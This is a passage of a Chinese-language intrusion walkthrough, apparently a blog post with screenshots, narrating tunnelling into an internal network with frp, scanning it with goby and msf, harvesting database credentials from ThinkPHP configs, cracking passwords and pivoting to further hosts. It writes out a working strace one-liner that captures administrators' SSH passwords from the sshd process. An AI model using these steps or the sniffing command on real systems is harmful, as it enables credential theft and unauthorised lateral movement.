 控制端上配置客户端 frpc.ini 后，nohup ./frpc -c frpc.ini &

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zHL9niaVUz14BOk1yZa47gJ0Lia8HgP5ONOp2AtEUTueXcwcxjTFT8rBQ/640?wx_fmt=jpeg)

本机配置 ./frps -c frps.ini

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zHxbyXFeyOFBiaPh52PtP0rUe7CPRwl61icGcpZPtxc2MS9PC80Ue6Ndw/640?wx_fmt=jpeg)

接入 goby，挂上代理，一键扫描内网网段，探测出来的漏洞不是很多，探测资产还是很强的！

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zTsuULj2ftic76MRVKnh2VeVEQCopGGWFUQ37KM2XXzzZibnHfNlicuxug/640?wx_fmt=jpeg)

顺便监听一下 ssh，等管理员上线就能抓到他的密码。

```
strace -xx -fp \`cat /var/run/sshd.pid\` 2>&1| grep --line-buffered -P 'write\\(\\d, "\\\\x00' | perl -lne '$|++; @F=/"\\s\*(\[^"\]+)\\s\*"/g;for (@F){tr/\\\\x//d}; print for @F'|grep --line-buffered -oP '.{8}\\K(\[2-7\]\[0-9a-f\])\*$'|grep --line-buffered -v '^64$'|perl -pe 's/(\[0-9a-f\]{2})/chr hex $1/gie'
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zQMShU51rC4HPAFuXibh7XicNgW9ZpsZWyMW8SnW5ypQYQX0o3NrHbpVg/640?wx_fmt=jpeg)

资产探测的差不多了，漏洞扫描的还差了点，开了不少 445 端口，直接用 msf 扫一下 ms17-010 试试。如下图，这就是最初向往的黑阔感 jio 叭。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zh6C7KXVad8oNlbebr33u0PXYRIuKEuib0sBu0XT4nQg0VM8ib5gh7vlA/640?wx_fmt=jpeg)

好吧，一个都没有，ms12-020 和 ms17-010 也没打成功...... 以前看各位大佬的文章进内网 rdp 和 smb 漏洞就是一把梭，差点怀疑是我 msf 的问题，结果在他服务器上装了个 msf 还是一样的，放弃了，并没有那么简单，得换个思路。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zN6Fc65U52rJW20cick5yMy50jbfL66qyaIcia6sJrS2vbxaBSwV3SoYQ/640?wx_fmt=jpeg)

翻一翻密码，thinkphp 的框架，太多配置文件了，翻到吐，找到一个 config，里面还是空的，不过看到了命名规则， grep -ri "DB\_USER" 找到了数据库的账号。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zvfGFP9zNO7Huh1TJwPQ2CoTXPGs1114sGOG8ciaCQ5o1xCaeGVHZvCQ/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zhGb3Ezz7LiaXbgPiaoGe0Jdib1jcib6KicsqA93SWIzjjgrQFNPNqSOf4DA/640?wx_fmt=jpeg)

查看这个路径，好的，获取到管理员明文账号密码（非 root 账号）。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zq2M51T1JbP2N3PicLmw451LjXBonc9ZNg8MLO703Ag0750I5m1a6ECg/640?wx_fmt=jpeg)

连接成功。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zRXVlBTrbVjofKB5bXBIfSwgkVPsOIVUk3O16ibJ8Q7JAW5gkicB3ZOPg/640?wx_fmt=jpeg)

能看到其他的数据库，权限很大，读一波密码，拿到了几个账号密码包括 root 密码，去解一下密，成功！

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zFzXc6HUl0RysrYNwFl4ib9HibibeHtgL0k3jvZVaE7EvwW8RyjDFSCialA/640?wx_fmt=jpeg)

把获取到的账号密码加载进去去撞库试试，拿到了一台主机（另一个就是我已经拿到的主机），到 goby 里面看了下资产，是台 windows 的主机，很幸福～

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s54vndlL3p7uXwhaBTyJ4b0zZdNYZ2WcuQRHyibianFgbR2A64xicIT8zEN55xrtyKyDqxlfnQpFibtk1Q/640?wx_fmt=jpeg)

一键连接 root，看到里面有域名和账号密码，是个 oa 系统，东西还挺多的。
